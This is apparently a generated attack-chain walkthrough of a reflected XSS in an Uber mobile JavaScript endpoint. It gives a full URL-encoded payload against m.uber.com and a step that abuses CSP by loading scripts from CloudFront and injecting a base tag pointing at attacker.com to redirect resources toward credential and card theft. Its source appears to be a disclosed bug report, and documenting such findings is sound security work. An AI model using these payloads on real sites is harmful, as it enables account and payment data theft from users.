

# Reflected XSS in Uber Mobile JavaScript Endpoint with CSP Exploitation

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected XSS in Uber's mobile app JavaScript resource, leading to arbitrary code execution and data exfiltration, enhanced by CSP weaknesses.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools)
- URL encoder/decoder tool (built-in browser or online)

### Target Environment

- Web platform
- Access to HTTPS endpoint: https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Public internet access to the Uber mobile endpoint
- No credentials needed for initial reflection testing
- Victim must load the malicious URL in their browser (e.g., via phishing or direct access)

## Detailed Attack Procedures

### Step 1: Examine Endpoint for Parameter Reflection
procedure: [[procedures/Examine-JavaScript-Endpoint-for-Parameter-Reflection]]

**Objective**: Identify how the _cc query parameter is reflected in the JavaScript response without proper escaping, confirming the XSS vulnerability.

**Instructions**: Open the endpoint in a browser and append a test value to the _cc parameter, such as ?_cc=asdf. Use developer tools to inspect the response and locate the reflection within a JavaScript string context.

**Expected Output**: The response shows {"_cc":"asdf"}} in the JS code, with the parameter unescaped inside double quotes.

**Success Indicators**:
- Parameter value appears directly in JS string without HTML/JS escaping
- String context is double-quoted, allowing breakout potential

### Step 2: Craft and Inject XSS Payload
procedure: [[procedures/Craft-and-Inject-XSS-Payload-in-Query-Parameter]]

**Objective**: Break out of the JavaScript string context and inject executable script to demonstrate arbitrary JS execution.

**Instructions**: URL-encode a payload like asdf"}} to close the string and object, then append </script>. Full URL: https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?_cc=asdf%22%7D%7D%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E. Load in browser and observe execution.

**Expected Output**: Alert box pops up, confirming script injection and execution over SSL.

**Success Indicators**:
- Injected script executes (e.g., alert triggers)
- Bypasses Chrome's XSS Auditor due to JS context

### Step 3: Leverage CSP Misconfigurations
procedure: [[procedures/Leverage-CSP-Misconfigurations-for-Enhanced-Exploitation]]

**Objective**: Use CSP weaknesses to host and load malicious scripts from trusted sources and manipulate base URLs for further attacks like credential theft.

**Instructions**: Inspect CSP headers for script-src 'unsafe-inline' or wildcards like *.cloudfront.net. Host malicious JS on AWS CloudFront and inject <base href="http://attacker.com"> to redirect relative resources to attacker domain.

**Expected Output**: Malicious scripts load from CloudFront; relative links resolve to attacker-controlled site.

**Success Indicators**:
- External scripts from *.cloudfront.net execute
- Base URL manipulation redirects traffic to attacker domain

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS in JS endpoint allowing arbitrary code injection over SSL.
2. Bypassed browser protections like XSS Auditor.
3. Exploited CSP to enable hosting of malicious payloads and URL manipulation, facilitating credential and credit card theft.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
